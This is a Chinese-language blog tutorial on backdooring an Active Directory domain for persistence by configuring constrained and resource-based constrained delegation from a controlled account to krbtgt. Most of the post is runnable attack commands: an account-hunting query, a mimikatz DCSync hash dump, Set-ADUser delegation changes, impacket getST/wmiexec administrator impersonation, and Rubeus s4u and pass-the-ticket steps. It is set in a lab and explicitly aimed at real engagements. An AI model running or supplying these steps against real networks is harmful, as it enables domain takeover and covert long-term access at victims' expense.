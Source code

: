 **目录**

[选择控制的用户](#t0 "选择控制的用户")

[已经存在的有SPN的域用户](#t1 "已经存在的有SPN的域用户")

[自己创建的机器账号](#t2 "自己创建的机器账号")

[自己创建的域用户然后赋予SPN](#t3 "自己创建的域用户然后赋予SPN")

[利用约束性委派打造隐蔽后门(权限维持)](#t4 "利用约束性委派打造隐蔽后门(权限维持)")

[利用基于资源的约束委派打造隐蔽后门(权限维持)](#t5 "利用基于资源的约束委派打造隐蔽后门(权限维持)")

[在Kali上使用impacket进行攻击](#t6 "在Kali上使用impacket进行攻击")

[在Win7上使用Rubeus进行攻击](#t7 "在Win7上使用Rubeus进行攻击")

* * *

关于委派以及委派的一些攻击手法，传送门：[域渗透之委派攻击](https://xie1997.blog.csdn.net/article/details/104538160 "域渗透之委派攻击")

如果这里我们假设服务B为krbtgt，服务A为我们控制的一个账号。配置服务A到服务B的[约束](https://so.csdn.net/so/search?q=%E7%BA%A6%E6%9D%9F&spm=1001.2101.3001.7020)性委派或者基于资源的约束性委派，那么我们控制的账户就可以获取KDC（Key Distribution Centre）服务的ST服务票据(也就是TGT认购权证)。于是我们就可以伪造任何权限用户的TGT认购权证，来打造一个变种的黄金票据了

选择控制的用户
=======

这里我们配置krbtgt允许服务A基于资源的约束委派。这里的服务A我们可以有以下几类：

1.  已经存在的有SPN的域用户
2.  自己创建的机器账号，但是要注意计算机账号密码的自动更新问题
3.  自己创建的域用户然后赋予SPN

在实战中，建议用第一种已经存在SPN的域用户，因为这样可以避免新建用户，实现动静最小化。

已经存在的有SPN的域用户
-------------

使用以下命令我们可以寻找具备SPN并且密码永不过期的用户账户。但是由于我们是测试环境，所以未配置该类型的账号。真实的企业环境中这种情况非常常见，比如许多服务账户就会满足这种条件。

```
Get-ADUser -Filter * -Properties ServicePrincipalName,PasswordNeverExpires | ?{($_ServicePrincipalName -ne "") -and ($_.PasswordNeverExpires -eq $true)}
```


![](https://img-blog.csdnimg.cn/20200329210554255.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这里比如我们找到了test用户属于这种要求，然后使用mimikatz的以下命令导出test用户的hash值，用于之后的攻击。

```
mimikatz "lsadump::dcsync /domain:xie.com /user:test"
```


自己创建的机器账号
---------

我们可以自己创建一个机器账号ServiceA

![](https://img-blog.csdnimg.cn/2020032921192398.png)

这种方法有唯一一个限制条件：计算机账户密码的自动更新问题。（默认情况下）每隔30天，计算机账户密码就会自动更新，对应的凭据也会发生变化，使后门失去作用。攻击者可以使用如下方法禁止该账号密码自动更新。

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9wMC5zc2wucWhpbWcuY29tL3QwMWZjMTE4MGNjMzM2ZTBhMzAucG5n?x-oss-process=image/format,png)

自己创建的域用户然后赋予SPN
---------------

我们还可以自己创建一个域用户，然后赋予SPN

![](https://img-blog.csdnimg.cn/20200329210823818.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

利用约束性委派打造隐蔽后门(权限维持)
===================

我们控制的用户选择的是自己创建的 test 域用户。

*   域控：win2008  192.168.10.131
*   域：xie.com
*   攻击机：Kali

首先修改 kali 的/etc/hosts/文件，添加如下内容

```
192.168.10.131 win2008      
192.168.10.131 xie.com
```


然后在域控上配置test用户到krbtgt用户的约束性委派。 

![](https://img-blog.csdnimg.cn/20200429234418138.png)

![](https://img-blog.csdnimg.cn/20200429233202883.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在Kali上进行攻击

```
./getST.py -dc-ip 192.168.10.131 -spn krbtgt/XIE.COM -impersonate administrator xie.com/test:x123456.\/      
export KRB5CCNAME=administrator.ccache      
./wmiexec.py -no-pass -k administrator@win2008 -dc-ip 192.168.10.131
```


![](https://img-blog.csdnimg.cn/20200430001103126.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

利用基于资源的约束委派打造隐蔽后门(权限维持)
=======================

*   域控：Win2012   192.168.10.24
*   域成员主机：Win7  192.168.10.130
*   普通域用户：xie\\hack

首先修改 kali 的/etc/hosts/文件，添加如下内容

```
192.168.10.24 win2012      
192.168.10.24 xie.com
```


配置基于资源的约束委派

这里我们用刚刚新建的test用户作为服务A，配置用户 test 到 krbtgt 的基于资源的约束委派

```
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount test      
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```


![](https://img-blog.csdnimg.cn/20200329211023745.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在Kali上使用impacket进行攻击
--------------------

```
./getST.py -dc-ip 192.168.10.24 -spn krbtgt -impersonate administrator xie.com/test:x123456.\/      
export KRB5CCNAME=administrator.ccache      
./wmiexec.py -no-pass -k administrator@win2012 -dc-ip 192.168.10.24
```


![](https://img-blog.csdnimg.cn/20200430002231113.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在Win7上使用Rubeus进行攻击
------------------

现在我们在Win7上用普通域用户 xie\\hack 使用Rubeus进行基于资源的约束性委派攻击

这下面的rc4是刚刚新建的test用户的密码哈希，我们也可以使用aes256来进行认证。服务我们设置为 krbtgt

```
Rubeus.exe s4u /user:test /rc4:b98e75b5ff7a3d3ff05e07f211ebe7a8 /domain:xie.com /msdsspn:krbtgt /impersonateuser:administrator
```


![](https://img-blog.csdnimg.cn/20200329211304611.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200329211359122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200329211428926.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

导入票据，访问域控

```
Rubeus.exe  ptt  /ticket:票据
```


![](https://img-blog.csdnimg.cn/20200329211758609.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

参考文章：[S4U2Self在活动目录持久化中的应用](https://www.anquanke.com/post/id/170535 "S4U2Self在活动目录持久化中的应用")

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)